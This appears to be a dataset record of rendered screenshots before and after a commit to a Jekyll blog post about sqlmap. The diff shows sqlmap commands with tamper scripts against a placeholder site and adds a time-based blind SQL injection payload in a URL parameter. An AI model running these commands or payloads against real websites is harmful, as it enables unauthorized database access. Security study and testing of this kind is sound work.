

Before and after one commit to alibabayun/alibabayun.github.io, a Jekyll site: the page built from _posts/2024/06/2024-06-29-smap-python.md, in a window 1280 px wide and 900 px high, scrolled down 468 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

Commit message:
fix text

`````diff
--- a/_posts/2024/06/2024-06-29-smap-python.md
+++ b/_posts/2024/06/2024-06-29-smap-python.md
@@ -25,6 +25,10 @@ python3 sqlmap.py -u "http://m.xxx.com/books/areward?book_id=1&gift_id=1" -p boo
 python3 sqlmap.py -u "http://m.xxx.com/books/areward?book_id=1&gift_id=1" -p book_id --dbms=mysql  --level=5 --risk=3 --tamper=space2comment.py,between.py --current-db --random-agent --time-sec=10 --batch
 ```
 
+sql注入
+```
+http://www.xxx.com/?a=detail&book_id=1590'XOR(159*if(now()=sysdate()%2Csleep(26)%2C0))XOR'Z&replyid=92&s=commit
+````
 
 ### 漏洞回显
 ```
`````
